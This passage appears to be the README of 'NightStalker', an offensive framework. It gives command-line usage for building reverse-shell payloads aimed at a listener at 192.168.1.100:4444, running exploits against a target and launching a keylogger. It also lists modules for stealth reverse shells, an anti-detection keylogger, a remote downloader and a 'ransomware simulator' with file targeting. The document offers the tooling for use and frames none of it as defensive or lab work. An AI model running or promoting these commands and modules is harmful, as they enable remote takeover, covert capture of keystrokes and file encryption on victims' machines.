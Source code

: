 ### Integration with Main Framework

```bash
# Use through main NightStalker framework
./nightstalker.sh payload build --type reverse_shell --format python

# Advanced exploitation
./nightstalker.sh redteam exploit --target 192.168.1.100 --type network

# Build stealth payloads
./nightstalker.sh stealth build --lhost 192.168.1.100 --lport 4444 --https
```

### Basic Usage

```bash
# Run with interactive menu
python main.py

# Build a payload
python builder.py --type reverse_shell --target 192.168.1.100:4444

# Run specific module
python main.py --module keylogger --config config/keylogger.yaml
```

## 🛠️ Available Modules

### Reverse Shells
- **TCP Reverse Shell**: Standard TCP-based reverse shell
- **HTTP Reverse Shell**: HTTP/HTTPS-based reverse shell
- **Encrypted Communication**: AES/XOR encryption support
- **Custom Delays**: Configurable callback intervals
- **Stealth Variants**: Advanced stealth reverse shells

### Keylogger
- **Stealth Operation**: Background keylogging
- **Configurable Dumps**: Custom log dump intervals
- **Encrypted Logs**: Optional log encryption
- **Cross-Platform**: Windows, Linux, macOS support
- **Anti-Detection**: Advanced anti-detection techniques

### Downloader
- **Remote File Retrieval**: Download files from remote sources
- **Proxy Support**: HTTP/SOCKS proxy support
- **Custom Headers**: Configurable HTTP headers
- **Resume Support**: Resume interrupted downloads
- **Encrypted Transfer**: Secure file transfer

### Ransomware Simulator
- **AES Encryption**: Strong file encryption
- **Key Management**: Secure key storage
- **Decryptor Builder**: Optional decryptor generation
- **File Targeting**: Configurable file extensions
- **Stealth Operation**: Advanced stealth capabilities
